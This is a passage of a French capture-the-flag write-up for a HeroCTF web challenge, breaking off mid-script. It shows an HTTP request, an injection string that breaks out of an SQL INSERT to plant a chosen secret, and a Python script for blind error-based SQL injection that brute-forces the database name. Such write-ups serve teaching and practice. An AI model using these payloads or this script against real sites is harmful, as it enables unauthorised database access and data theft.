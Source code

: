 Bref je m'arrache un peu les cheveux face à cette erreur, finalement, il fallait ajouter un Content-Type en application/x-www-form-urlencoded... Bref au moins maintenant on a plus cette erreur !!
```
POST /api/newsletter.php HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 18

email=mdr@live.rrr
```
On a une réponse même : 
```
{"ok":"Check at /api/check.php with your email as get parameter and this secret: 79db4c3f291ca0e2ba99 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```
L'endpoint de check ne me permet pas d'avoir plus d'information, sauf sur le fait qu'il y a une valeur secrète qui m'empêche d'énumerer les mails ...

J'essaye donc de jouer sur le paramètre en array de l'endpoint /api/newsletter.php, ça ne fonctionne pas, mais une single quote ('), provoque une erreur ! Encore une SQLI ... J'essaye plusieurs payloads dans le but de ne pas déclencher d'erreur mais j'échoue. (De base j'avais commencé ce chall qui m'a fait rage quit pour aller faire du web3, mais on s'en branle de ma vie). 
J'ai ensuite compris que j'étais un mongole et que si ma payload ne passait pas, c'était parce-que j'étais dans un INSERT .... '
J'obtiens quelque chose dans ce style: ``MONEMAIL','okok');`--``
En me rendant sur https://blackcat.web.heroctf.fr/api/check.php?email=MONEMAIL&secret=okok, je constate que j'ai en effet pu écrire mon secret car ça fonctionne !

Plus qu'à scripter une blind, encore, en error based .... Comme précedemment, j'exfiltre déjà le nom de la base de données, puis les tables, puis leurs colonnes.

Mon script (en python cette fois !):
```python
import requests
import random
import string

def tryRawPayload(payload):
    try:
        int = random.randint(0,1000000000)
        email = f"ahahah{int}@blackcat.fr"
        sent_payload = f"{email}{payload}"
        print(sent_payload)
        res = requests.post('https://blackcat.web.heroctf.fr/api/newsletter.php', data={"email": sent_payload}, timeout=15)
        print(res.text)
        return "error" not in res.text
    except:
        return False

def tryPayload(payload):
    return tryRawPayload(f"{email}',({payload}));--")

def brute(exfiltrated):
    for char in string.printable:
        if char != "%":
            if char == "_": char = "\_"
            guess = exfiltrated + char
            if tryPayload(f"select 1 from dual where database() like '{guess}%'"):
                print(guess)
                brute(guess)

def brutePerChar(exfiltrated):
    for char in string.printable:
```